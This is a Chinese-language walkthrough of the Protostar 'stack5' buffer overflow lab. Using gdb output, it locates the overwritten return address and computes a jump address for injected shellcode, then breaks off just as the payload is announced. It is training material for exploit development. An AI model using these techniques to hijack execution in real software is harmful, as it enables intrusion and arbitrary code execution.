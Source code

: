 查看main函数的汇编代码，为了方便分析，设置Intel语法显示，我们在`0x080483da`处下个断点。

```c
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:    mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:    call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:    leave
0x080483da <main+22>:    ret
End of assembler dump.
```

通过`r < /tmp/exp`的方式，将**exp文件的内容**输入到程序中，然后在我们下断点的地方停下来。此时会自动调用`hook-stop`命令，打印了`eip`的指令是`ret`，**栈顶元素**是`0x55555555`，此时`esp`**指向的地址是0xbffff77c**。

```c
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exp
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff77c:    0x55555555    0x56565656    0x57575757    0x58585858
0xbffff78c:    0x59595959    0x5a5a5a5a    0xffffff00    0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5454545c
) at stack5/stack5.c:11
11    stack5/stack5.c: No such file or directory.
    in stack5/stack5.c
```

报了段错误，找不到`0x55555555`的地址, 对应的内容是`UUUU`,也就是说我们要将`UUUU的位置`**填入一个地址**来控制跳转，跳转到哪，当然是`shellcode`的位置，shellcode在哪，**shellcode需要我们自己写入**，可以去这个网站找[shell-storm](http://shell-storm.org/shellcode)。

```c
(gdb) ni
Cannot access memory at address 0x54545458
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
0x55555555:    Error while running hook_stop:
Cannot access memory at address 0x55555555
0x55555555 in ?? ()
```

`esp`指向`0xbffff77c`，而这个地址的内容实际上就是返回地址，**占4个字节**，然后我们在这个返回地址后面写入`shellcode`，那么我们需要跳转到的地址其实就是`0xbffff77c + 4 = 0xbffff780`。下面就是构造好的`payload`。
